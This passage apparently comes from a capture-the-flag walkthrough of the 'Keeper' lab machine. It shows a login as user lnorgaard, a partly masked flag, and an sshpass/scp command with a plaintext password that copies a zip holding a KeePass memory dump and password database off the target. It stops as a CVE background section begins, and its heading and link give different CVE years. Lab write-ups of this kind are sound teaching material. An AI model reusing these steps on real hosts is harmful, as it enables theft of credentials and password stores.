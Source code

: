      * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    You have mail.
    Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
    lnorgaard@keeper:~$



And I can grab `user.txt`:



    lnorgaard@keeper:~$ cat user.txt
    f8e0a027************************



## Shell as root

### Keepass Dump

As mentioned in the ticket, there's a zip archive in lnorgaard's home
directory:



    lnorgaard@keeper:~$ ls
    RT30000.zip  user.txt



I'll pull it back to my host using `scp` (it's 84MB, so it takes a
minute):



    oxdf@hacky$ sshpass -p 'Welcome2023!' scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .



It has two files in it:



    oxdf@hacky$ unzip RT30000.zip 
    Archive:  RT30000.zip
      inflating: KeePassDumpFull.dmp     
     extracting: passcodes.kdbx  
    oxdf@hacky$ ls -lh passcodes.kdbx KeePassDumpFull.dmp 
    -rwxrwx--- 1 root vboxsf 242M May 24  2023 KeePassDumpFull.dmp
    -rwxrwx--- 1 root vboxsf 3.6K May 24  2023 passcodes.kdbx



### CVE-2022-32784

#### Background

There's a [2023 information disclosure
vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) in
KeepPass such that:
